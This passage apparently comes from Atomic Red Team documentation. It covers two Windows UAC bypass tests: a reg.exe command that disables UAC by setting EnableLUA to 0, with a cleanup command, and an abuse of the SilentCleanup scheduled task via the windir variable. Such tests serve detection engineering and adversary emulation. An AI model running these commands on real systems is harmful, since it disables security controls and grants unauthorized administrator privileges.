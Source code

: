 



<br/>
<br/>

## Atomic Test #8 - Disable UAC using reg.exe

auto_generated_guid: 9e8af564-53ec-407e-aaa8-3cb20c3af7f9

Disable User Account Conrol (UAC) using the builtin tool reg.exe by changing its registry key
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA from 1 to 0
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f
```





<br/>
<br/>

## Atomic Test #9 - Bypass UAC using SilentCleanup task

auto_generated_guid: 28104f8a-4ff1-4582-bcf6-699dce156608

Bypass UAC using SilentCleanup task on Windows 8-10 using bat file from https://www.reddit.com/r/hacking/comments/ajtrws/bypassing_highest_uac_level_windows_810/

There is an auto-elevated task called SilentCleanup located in %windir%\system32\cleanmgr.exe This can be abused to elevate any file with Administrator privileges without prompting UAC (even highest level).

For example, we can set the windir registry kye to: "cmd /k REM "

And forcefully run SilentCleanup task:

schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

REM will tell it to ignore everything after %windir% and treat it just as a NOTE. Therefore just executing cmd with admin privs.
**Supported Platforms:** Windows
